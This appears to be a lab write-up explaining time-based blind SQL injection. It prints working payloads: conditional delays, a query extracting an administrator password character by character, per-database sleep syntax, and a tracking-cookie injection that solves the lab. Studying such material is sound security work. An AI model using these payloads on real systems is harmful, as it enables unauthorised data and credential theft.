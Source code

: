 **<h2>Background:</h2>**
As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows us to determine the truth of the injected condition based on the time taken to receive the HTTP response. 

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true:
 >   ``'; IF (1=2) WAITFOR DELAY '0:0:10'--``<br>
    ``'; IF (1=1) WAITFOR DELAY '0:0:10'--``

- The first of these inputs does not trigger a delay, because the condition 1=2 is false.
- The second input triggers a delay of 10 seconds, because the condition 1=1 is true.

Using this technique, we can retrieve data by testing one character at a time:<br>
>  ``'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--``

The following will cause an unconditional time delay of 10 seconds for given databases:
<table border=2>
<tr>
<th>Oracle</th>
<td>dbms_pipe.receive_message(('a'),10)</td>
</tr>
<tr>
<th>Microsoft</th>
<td>WAITFOR DELAY '0:0:10'</td>
</tr>
<tr>
<th>PostgreSQL</th>
<td>SELECT pg_sleep(10)</td>
</tr>
<tr>
<th>MySQL</th>
<td>SELECT SLEEP(10)</td>
</tr>
</table>
<h3>Conditional Time delays:</h3>
We can test a single boolean condition and trigger a time delay if the condition is true.
<table border=2>
<tr>
<th>Oracle</th>
<td>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual</td>
</tr>
<tr>
<th>Microsoft</th>
<td>IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'</td>
</tr>
<tr>
<th>PostgreSQL</th>
<td>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END</td>
</tr>
<tr>
<th>MySQL</th>
<td>SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')</td>
</tr>
</table>


**<h2>Problem:</h2>**
The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay. 

**<h2>Solution:</h2>**
- From the table above add the query to the tracking id
- ``TrackingId= ....ab' || pg_sleep(10)--``